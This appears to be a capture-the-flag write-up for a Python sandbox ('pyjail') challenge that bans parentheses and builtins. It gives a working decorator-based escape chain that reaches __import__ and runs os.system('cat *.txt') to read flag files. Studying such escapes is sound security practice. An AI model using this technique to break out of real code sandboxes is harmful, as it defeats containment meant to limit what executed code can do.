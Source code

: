 # decorated

## challenge

I think I've figured out the problem - all of the problems in pyjails stem from calling functions. Well, I've put a stop to that!

Note: the server is running on python 3.10

decorated.py
```py
#!/usr/bin/env python3

code = []
print("Enter code:\n")
while line := input():
    assert line.isascii()
    code.append(line)

for line in code:
    if any(i in '()' for i in line):
        print("No calling functions!")
        exit()

exec('\n'.join(code), {"__builtins__": {}})
```

## solution

```py
command = lambda x: "cat *.txt"
import_list = []
os_list = []
x=__build_class__=lambda *_:_
g=x.__globals__
b=__builtins__
b|=g
type_class = lambda x: [].__class__.__class__
get_import = lambda x: x[0].register.__globals__["__builtins__"]["__import__"]
os_str = lambda x: "os"
@import_list.append
@get_import
@[].__class__.__class__.__subclasses__
@type_class
class X:
    pass
@os_list.append
@import_list[0]
@os_str
class X:
    pass
@os_list[0].system
@command
class X:
    pass
```

Robin has a fantastic writeup of using decorators (and a few other methods) to escape a similar pyjail here: https://ur4ndom.dev/posts/2022-07-04-gctf-treebox/

Here, you don't have access to builtins, so you need to run a standard pyjail escape using decorators whenever you would need to call a function. The code above runs `[].__class__.__class__.__subclasses__([].__class__.__class__)[0].register.__globals__["__builtins__"]["__import__"]("os").system("cat *.txt")` with a few points of interest.

First, you can pass in the innermost argument to the function by just making a lambda that returns that value. Second, you need to add a function called `__build_class__` to builtins so you can make classes. Third, (I think) you can't have it all in one chain, because sometimes you need to take the result of a function call and access its attributes. I kept references to the objects I cared about by appending them to lists.
